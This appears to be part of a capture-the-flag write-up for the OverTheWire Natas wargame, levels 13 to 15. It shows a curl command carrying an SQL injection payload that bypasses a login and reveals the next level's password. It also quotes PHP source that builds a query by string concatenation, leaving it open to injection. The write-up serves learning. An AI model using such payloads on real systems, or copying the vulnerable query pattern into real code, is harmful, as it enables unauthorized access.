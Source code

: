 ```
abs@MacBookPro OverTheWire % curl "natas14.natas.labs.overthewire.org/index.php?debug=1" -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ -s -F "username=Vandelay\" OR 0=0 -- \""
...
<b>Notice</b>:  Undefined index: password in <b>/var/www/natas/natas14/index.php</b> on line <b>19</b><br />
Executing query: SELECT * from users where username="Vandelay" OR 0=0 -- "" and password=""<br>Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```


# Level 14 -> 15:
```
abs@MacBookPro OverTheWire % curl "natas15.natas.labs.overthewire.org/" -u natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx -s                                     
<h1>natas15</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
```